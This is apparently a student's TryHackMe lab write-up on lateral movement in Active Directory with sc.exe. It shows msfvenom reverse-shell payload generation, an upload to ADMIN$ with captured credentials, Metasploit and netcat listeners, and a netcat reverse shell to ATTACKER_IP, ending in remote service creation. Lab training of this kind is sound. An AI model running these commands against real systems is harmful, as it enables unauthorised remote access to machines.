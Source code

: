 #### Move Laterally using `sc.exe`

Connect to the `JumpBox` using the credentials you have gathered via `ssh`:
```cmd
ssh za\\<AD Username>@thmjmp2.za.tryhackme.com
```

**For this exercise, we will assume we have already captured some credentials with administrative access.**
1. We can ***upload any binary we'd like to execute and associate it with the created service***.
	Note: While it is possible to upload and execute any `.exe`, a ***standard executable will get killed immediately*** because:
		Service Manager will kill non-service executables.
	**Create a reverse shell**
	```bash
	msfvenom -p windows/shell/reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f exe-service -o myservice.exe
	```

2. Use acquired credentials to upload the payload to the ADMIN$ using `smbclient`
```bash
smbclient -c 'put myservice.exe' -U <admin-username> -W ZA '//thmiis.za.tryhackme.com/admin$/' <admin-password> 
```
- `-c:` run a specific command after connecting.
- `put myservice.exe:` put uploads a file to the remote system.
- `-U:` username
- `-W ZA:` Domain name `za`

3. Once the executable is uploaded, set up a listener
```bash
use exploit/multi/handler
set lhost <IP>
set lport 4444
set payload windows/shell/reverse_tcp
run
```

4. Since `sc.exe` doesn't allow us to specify credentials as part of the command, we need to use ***`runas` to spawn a new shell with username's access token***. We only have SSH access to the machine, so If we tried `runas /netonly /user:ZA\t1_leonard.summers cmd.exe`, the new command prompt would spawn on the user's session, but we would have no access to it. To overcome this problem, we can use ***`runas` to spawn a second reverse shell with username's access token***:
```cmd
runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe <ATTACKER_IP> 5555"
```

5. Set up a reverse shell
```bash
nc -nvlp 5555
```

6. Finally, create a new service remotely by using `sc`
```cmd
C:\> sc.exe \\thmiis.za.tryhackme.com create THMservice-3249 binPath= "%windir%\myservice.exe" start= auto 
C:\> sc.exe \\thmiis.za.tryhackme.com start THMservice-3249
```

**Once you have started the service, you should receive a connection on your first listener.**